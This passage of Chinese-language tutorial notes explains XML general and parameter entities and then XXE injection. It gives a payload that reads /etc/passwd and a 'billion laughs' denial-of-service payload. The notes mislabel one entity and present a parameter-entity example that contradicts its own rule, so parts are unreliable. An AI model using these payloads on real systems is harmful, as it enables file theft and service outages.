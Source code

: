      在这个例子中，`&greeting;` 是一个通用实体，它被定义为字符串 "Hello, "，并在 `<message>` 元素中引用。

2. **参数实体（Parameter Entities）：**
   
   - **定义方式：** 参数实体通常用DTD中的 `<!ENTITY % name "value">` 声明进行定义。注意 `%` 符号用于区分通用实体和参数实体。
   
   - **使用范围：** 参数实体主要用于定义在DTD内部，用于简化DTD的结构，提高可维护性和可重用性。参数实体不能在文档实例中引用，但可以在DTD内引用。
   
   - **示例：**
     
     ```
     xmlCopy code<!DOCTYPE example [
       <!ENTITY % greeting "Hello, ">
       <!ENTITY message "%greeting;World!">
     ]>
     
     <root>
       <content>&message;</content>
     </root>
     ```
     
     在这个例子中，`%greeting;` 是一个参数实体，被定义为 "Hello, "，然后 `%message;` 在DTD中使用了 `%greeting;` 来定义最终的文本 "Hello, World!"。
   * 注意：
     
     * **参数实体只能在外部DTD使用**
     * &xxe；这样的通用实体无法用于SYSTEM等关键字后的url拼接

### XXE注入

#### 原理

#### 利用方式

##### 任意文件读取

* 最为常见的利用方式：通过外部实体引用支持的协议，引用目标文件

```xml
<!DOCTYPE root [
<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>

<root>&passwd;</root>
```

* &passwd;将被解析为目标文件的内容，如果我们足够幸运，返回包包含我们发送过去的\<root\>&passwd;\</root\>，那么我们将会直接得到想要的文件内容

##### DOS攻击(部分解析器)

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<tag>&lol9;</tag>
```
